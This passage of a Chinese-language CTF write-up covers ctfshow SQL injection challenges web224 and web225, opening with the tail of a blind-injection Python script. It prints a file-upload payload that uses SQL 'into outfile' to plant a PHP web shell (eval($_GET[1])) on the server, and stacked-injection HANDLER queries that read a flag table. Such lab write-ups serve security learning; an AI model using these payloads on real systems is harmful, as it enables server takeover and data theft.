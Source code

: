 ```python
            tail = mid
    if head != 32:
        res += chr(head)
    else:
        break
    print(res)
```

## web 224

参考：[Web224（finfo文件注入）](https://boogipop.com/2023/03/02/CTFSHOW-SQL%E6%B3%A8%E5%85%A5/#Web224（finfo文件注入）)

访问robots.txt可以看到密码重置页面

![224](https://the0n3.top/medias/show-sql/224.png)

重置密码后登录，存在一个文件上传页面

题目检查上传文件里是否存在一些关键字`text`,`png`,`images`等等，空文件和bin文件可以上传成功。奇怪的是看大佬的wp，为什么存在这样的洞，题目会执行bin文件里的sql语句？站长想通过文件上传执行shell命令？不能直接ssh？

上传`1.bin`，写木马到服务器，不能太长，似乎只能一句。前面要有`C64File "')`

```bash
C64File "');select "<?php eval($_GET[1]);?>" into outfile '/var/www/html/3.php';--+
```

## web 225 堆叠提升

堆叠注入，查询表名

![225](https://the0n3.top/medias/show-sql/225.png)

在f12调试界面可以看到接口返回的信息，两个表名，应该是键名`tables_in_ctfshow_web`和字段对不上，所以没有直接显示在页面里。

查询flag表里的字段名

![2250](https://the0n3.top/medias/show-sql/2250.png)

这道题类似`强网杯 2019 - 随便注`。下面有多种解题思路

[强网杯 2019 - 随便注](https://the0n3.top/pages/a7f3bd/)

### 思路一

直接读取表里的内容，这里flag在表里的第一行，直接读出来了，如果不是第一行，可以多执行几次`handler a read next;`

```sql
handler `ctfshow_flagasa` open as `a`;
handler `a` read next;
```

![2252](https://the0n3.top/medias/show-sql/2252.png)
